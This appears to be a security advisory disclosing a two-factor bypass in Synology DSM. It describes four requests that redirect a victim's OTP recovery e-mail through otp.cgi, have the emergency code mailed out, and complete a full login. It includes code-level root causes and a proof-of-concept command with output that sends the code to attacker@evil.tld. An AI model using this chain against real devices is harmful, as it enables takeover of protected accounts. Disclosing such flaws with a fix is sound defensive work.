




Synology DSM 2FA bypass
AuthorAlexandro Sanchez Bach Date2026-08-16
A Synology DSM account OTP recovery e-mail address can be changed with the account password alone, letting an attacker redirect the emergency 2FA code to their own mailbox and log in. Four requests, no session:
otp.cgi action=saveMailrewrites the victim's recovery e-mail to an attacker address, as root.SYNO.API.Auth login(password only) returns "2FA required" and clears the gate on step 3.SYNO.Core.OTP.Mail sendmails the 6-digit emergency code to the attacker address.SYNO.API.Auth loginwith the password and that code gives a full session.
Impact
- Full remote takeover of any 2FA-protected DSM account
Preconditions:
- Attacker knows the victim's password
- Victim is a local or domain account (LDAP names contain
@, whichOTPUtils::SetUserMailrefuses). allow_2fa_device_lost_optionenabled. Absent fromsynoinfo.confby default, so it defaults to enabled.
Affected products
- DSM 7.4.1-90080 and DSM 7.3.2-86009 (both versions reproduced on an RS1221+ appliance). Code is architecture independent.
- Earlier versions likely affected too:
SecureSignIn-x86_64-1.1.7-0455, bundled and enabled by default on DSM 7.2 and later.
Further details
otp.cgi is setuid root (-rwsr-x--- root/system) and reachable pre-auth: nginx routes anything containing .cgi to synoscgi ahead of the deny rules, and the CGI's permission check is stubbed to return true (its query.api entry carries no authLevel, and the CheckPermission vtable slot is overridden):
$ objdump -d otp.cgi # vtable slot +0x18 -> 0x2400
2400: endbr64
2404: mov eax,0x1
2409: ret
action=saveMail rewrites the recovery e-mail:
- It authenticates with the OTP factor disabled:
AuthUserAccount(handler, user, passwd, false, true)(otp.cgi.c:611). The trailingtruebecomes the OTP-skip sentinel(true ^ 1) = 0passed toSynoCgiTestLoginEx2, which reaches thesyno-otp-type-skip-checkPAM path (pam_syno_otp.so.c:1232), so the correct password alone passes even with 2FA enforced. - It skips the
ResetCredentialsByNameprivilege drop that every other action runs (otp.cgi.c:628), soOTPUtils::SetNormalUserMailwritesuser+0x28 = strdup(mail)with euid 0 and no format check (libsynoOTP.so.c:8077).
SYNO.Core.OTP.Mail send (authLevel: 0) then mails a 6-digit emergency code to that address (libsynoOTP.so.c:11861-11863). It is gated by SynoCgiIsPasswdChangedNotLogin, which fails the send with error otp_err_pwd_chg_not_login until a prior password login; a password-only SYNO.API.Auth login returning "2FA required" clears it. pam_syno_otp accepts the emergency code as the second factor, so the final password + code login completes.
Proof of concept
poc.py runs steps 1 to 3. Then log in with the victim's password and the 2FA code delivered to the attacker mailbox.
$ python3 poc.py --url https://nas:5001 --victim-user alice \
--victim-password 'Passw0rd!' --attacker-mail attacker@evil.tld
[1] rewrite victim recovery e-mail: {"data":{"success":true},"success":true}
[2] password login, clears the emergency-code gate: {"error":{"code":403},...}
[3] mail emergency 2FA code to attacker: {"data":{"success":true},"success":true}
Log in with the victim's password and the 2FA code sent to attacker@evil.tld.




Suggested fix
Require the account's current second factor to change the OTP recovery address, the full authentication that saveMail skips today. Confirming the change through a link sent to the existing recovery address would also work.